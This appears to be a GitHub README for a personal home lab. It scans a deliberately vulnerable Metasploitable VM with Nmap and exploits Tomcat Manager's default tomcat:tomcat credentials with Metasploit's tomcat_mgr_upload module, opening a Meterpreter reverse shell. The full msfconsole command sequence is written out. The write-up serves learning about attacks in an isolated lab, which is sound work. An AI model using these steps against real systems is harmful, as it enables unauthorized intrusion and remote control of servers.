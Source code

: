# 🔐 Cyber Home Lab with Kali, Metasploitable & Windows 11 (UTM-based)

This is a personal cybersecurity home lab built on a Mac M2 using UTM. It simulates a real-world vulnerable environment for ethical hacking, network scanning, and exploitation using tools like **Nmap** and **Metasploit**.

## 🧰 Lab Setup

- **Host Machine:** macOS (M2, 16GB RAM)
- **Virtualization:** [UTM](https://mac.getutm.app/)
- **Virtual Machines:**
  - Kali Linux (Attacker)
  - Metasploitable 2 (Target)
  - Windows 11 (Optional victim/client)
- **Network Mode:** Bridged (All VMs share same local subnet)

## 🧪 Objective

1. Scan a vulnerable machine (Metasploitable)
2. Identify services and open ports
3. Exploit using known vulnerabilities
4. Gain a reverse shell using Metasploit

---

## 🔍 Step 1: Nmap Scan

**Command used:**
```bash
nmap -A 192.168.1.15 > metasploitable-nmap.txt
```
<a href="https://github.com/daksh20031231/cyber_lab_project/blob/main/metasploitable-nmap.txt">📄 View Full Scan Output</a>

---

## 🎯 Step 2: Exploiting Apache Tomcat with Metasploit

Metasploitable runs a vulnerable Apache Tomcat Manager on port 8180 using default credentials (tomcat:tomcat). We use Metasploit to exploit it.

**Metasploit Module:**
```bash
exploit/multi/http/tomcat_mgr_upload
```
**Payload:**
```bash
java/meterpreter/reverse_tcp
```
**Exploit Steps:**
```bash
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.1.15
set RPORT 8180
set HTTPUSERNAME tomcat
set HTTPPASSWORD tomcat
set payload java/meterpreter/reverse_tcp
set LHOST 192.168.1.16  # Kali's IP
run
```

✅ Reverse shell session opened!

**🖥️ Meterpreter Shell Info**

After exploitation, I obtained a Meterpreter shell on the target system.

```Commands Run:
whoami       
uname -a     
id           
```
---

## 🧠 Key Learnings
1) UTM works great for local cyber labs on macOS
2) Bridged networking is essential for real communication between VMs
3) Nmap is powerful for initial recon and service detection
4) Metasploit automates real-world attacks with minimal configuration
5) Apache Tomcat’s default credentials are a serious security flaw

---

## 🛡️ Disclaimer
This project is created for educational purposes only.
All virtual machines are hosted and tested in a local isolated environment.
Never attempt to scan, exploit, or attack any system without explicit permission.

---

## 👤 Author
<strong>Daksh Sharma</strong><br>
Cybersecurity Enthusiast | Ethical Hacking Learner <br>
📍 Built with ❤️ using UTM on macOS




